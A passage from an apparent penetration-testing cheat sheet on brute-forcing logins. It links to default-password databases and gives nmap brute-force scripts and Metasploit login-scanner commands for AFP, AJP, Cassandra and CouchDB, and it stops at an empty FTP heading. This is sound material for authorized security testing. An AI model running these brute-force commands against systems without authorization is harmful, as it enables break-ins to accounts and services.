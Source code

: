 # Brute Force - CheatSheet

**Wait a second, have you tried to use default credentials??**

**Search in google** for default credentials of the technology that is being used, or **try this links**:

* \*\*\*\*[**http://www.phenoelit.org/dpl/dpl.html**](http://www.phenoelit.org/dpl/dpl.html)\*\*\*\*
* \*\*\*\*[**https://192-168-1-1ip.mobi/default-router-passwords-list/**](https://192-168-1-1ip.mobi/default-router-passwords-list/)\*\*\*\*
* \*\*\*\*[**https://datarecovery.com/rd/default-passwords/**](https://datarecovery.com/rd/default-passwords/)\*\*\*\*
* \*\*\*\*[**https://bizuns.com/default-passwords-list**](https://bizuns.com/default-passwords-list)\*\*\*\*
* \*\*\*\*[**https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv**](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)\*\*\*\*
* \*\*\*\*[**https://www.cirt.net/passwords**](https://www.cirt.net/passwords)\*\*\*\*
* \*\*\*\*[**http://www.passwordsdatabase.com/**](http://www.passwordsdatabase.com)

## Service <a href="#service" id="service"></a>

Ordered alphabetically by service name.

### AFP <a href="#afp" id="afp"></a>

```
nmap -p 548 --script afp-brute <IP>msf> use auxiliary/scanner/afp/afp_loginmsf> set BLANK_PASSWORDS truemsf> set USER_AS_PASS truemsf> set PASS_FILE <PATH_PASSWDS>msf> set USER_FILE <PATH_USERS>msf> run
```

### AJP <a href="#ajp" id="ajp"></a>

```
nmap --script ajp-brute -p 8009 <IP>
```

### Cassandra <a href="#cassandra" id="cassandra"></a>

```
nmap --script cassandra-brute -p 9160 <IP>
```

### CouchDB <a href="#couchdb" id="couchdb"></a>

```
msf> use auxiliary/scanner/couchdb/couchdb_login
```

### FTP <a href="#ftp" id="ftp"></a>

